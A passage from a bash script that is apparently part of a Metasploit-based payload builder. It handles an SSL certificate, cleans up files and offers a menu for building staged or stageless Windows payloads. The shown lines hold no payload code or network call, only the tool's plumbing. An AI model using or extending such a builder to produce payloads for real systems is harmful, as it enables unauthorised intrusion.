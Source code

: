   sleep 1
  echo "Writing new private key to '$N4M3.key'"
  cd ~/.msf4/loot
  # Cleanup, copy/paste in output folder ..
  mv *.pem $IPATH/output/$N4M3.pem > /dev/null 2>&1
  rm *.key && rm *.crt && rm *.log > /dev/null 2>&1
    #
    # Check if certificate was build (shanty bug-report)..
    #
    if ! [ -f "$IPATH/output/$N4M3.pem" ]; then
      echo ${RedF}[x]${white}" Certificate: $N4M3.pem not found, aborting .."
      sleep 2
      exit
    fi
  echo ${BlueF}[☠]${white}" Stored: output/$N4M3.pem .."${BlueF};
  sleep 1
  cd $IPATH/output
  sleep 1

else
  #
  # Cancel button pressed, aborting script execution ..
  #
  echo ${RedF}[x]${white}" Cancel button, aborting .."
  if [ "$ChEk_DB" = "ON" ]; then
  $SeRvi stop | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Stop postgresql service" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
  fi
  sleep 2
  exit
fi




#
# Chose to build a staged (payload.bat|ps1|txt) or a stageless (payload.exe) ..
#
BuIlD=$(zenity --list --title "☠ PAYLOAD CATEGORIES ☠" --text "\nChose payload categorie:" --radiolist --column "Pick" --column "Option" TRUE "staged (payload.$DEFAULT_EXT)" FALSE "stageless (payload.exe)" --width 300 --height 180) > /dev/null 2>&1
#
# Staged payload build (batch output)
# HINT: Edit settings file and change 'DEFAULT_EXTENSION=bat' to the extension required ..
#
if [ "$BuIlD" = "staged (payload.$DEFAULT_EXT)" ]; then
  echo ${BlueF}[☠]${white} staged payload sellected ..${Reset};
  sleep 1
    #
    # Create a Paranoid Payload (staged payload)
